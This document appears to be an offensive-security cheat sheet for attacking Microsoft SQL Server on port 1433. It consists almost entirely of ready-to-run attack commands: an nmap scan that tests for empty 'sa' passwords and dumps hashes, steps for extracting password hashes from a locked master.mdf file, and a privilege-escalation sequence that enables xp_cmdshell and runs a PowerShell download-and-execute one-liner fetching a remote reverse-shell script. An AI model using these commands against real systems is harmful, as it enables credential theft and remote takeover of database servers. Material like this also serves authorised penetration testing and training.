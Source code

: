 # 1433 - MSSQL

## Enumeration

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.0.0.1
```

## Dumping Hashes From master.mdf

* May need to use [Invoke-NinjaCopy.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1), as the file is locked during use.
* Extract hashes using [Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes):

```
set-executionpolicy unrestricted
add-type -path .\OrcaMDF.Framework.dll
add-type -path .\OrcaMDF.RawCore.dll
import-module .\Get-MDFHashes.ps1
Get-MDFHashes -mdf master.mdf
```

## Privilege Escalation

```
$ impacket-mssqlclient sa:password@10.0.0.1
SQL> enable_xp_cmdshell
SQL> reconfigure
SQL> xp_cmdshell whoami
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.0.0.1/rshell.ps1") | powershell -noprofile'
```


